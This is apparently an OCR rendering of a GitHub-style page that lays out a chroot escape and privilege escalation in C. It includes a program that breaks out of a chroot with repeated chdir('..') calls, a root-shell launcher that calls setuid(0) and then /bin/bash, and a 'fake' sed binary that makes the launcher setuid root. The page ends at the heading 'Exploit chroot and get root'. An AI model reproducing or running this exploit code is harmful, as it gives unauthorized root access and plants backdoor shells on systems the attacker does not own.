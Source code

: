 ```c
// $ cd $(python -c "print 'a/'*100")
// cat test.c 
// gcc test.c -o test

#include <stdio.h>
#include <stdlib.h>

int main() {
    int i;
    for (i = 0; i < 100; i++) {
        printf("%d\n", i);
        chdir(".."); // /tmp/chroot
    }
    system("/bin/pwd");
}

```
### Create a launcher

```c

// cat launcher.c 
// gcc launcher.c -o /tmp/chroot/bin/launcher

#include <stdio.h>
#include <stdlib.h>
int main() {
        setuid(0);
        setgid(0);
        system("/bin/bash");
}

```

### Create a "fake" sed

```c
// cat sed.c
// gcc sed.c -o /tmp/chroot/bin/sed

#include <sys/stat.h>
#include <stdio.h>
#include <stdlib.h>

int main() {
        setuid(0);
        setgid(0);
        chown("/bin/launcher", 0, 0);
        chmod("/bin/launcher", S_ISUID|S_IRWXU|S_IRWXG|S_IRWXO);
}

```
### Exploit chroot and get root
